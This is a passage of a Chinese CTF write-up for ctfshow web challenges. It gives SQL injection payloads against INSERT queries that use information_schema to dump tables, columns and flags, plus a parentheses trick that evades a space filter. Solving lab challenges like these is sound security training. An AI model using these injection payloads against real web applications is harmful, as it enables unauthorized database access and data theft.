 ```
password=1&username=1',(select group_concat(column_name) from information_schema.columns where table_name='flag'));#

//id,flagass23s3,info
```

爆字段

```
password=1&username=1',(select flagass23s3 from flag));#
```



#### web238

```php
查询语句

  //插入数据
  $sql = "insert into ctfshow_user(username,pass) value('{$username}','{$password}');";
      
返回逻辑

  //过滤空格

```

测了一下发现不止是空格，连同一些代替空格的字符也被一同waf了，比如/**/

我们可以考虑**用括号代替空格**

payload

```
#获取表名
username=1',(select(group_concat(table_name))from(information_schema.tables)where(table_schema=database())))%23&password=1

#获取列名
username=1',(select(group_concat(column_name))from(information_schema.columns)where(table_name='flagb')))%23&password=1

#获取数据
username=1',(select(group_concat(flag))from(flagb)))%23&password=1

```



#### web239

```
查询语句

  //插入数据
  $sql = "insert into ctfshow_user(username,pass) value('{$username}','{$password}');";
      
返回逻辑

  //过滤空格 or 
```
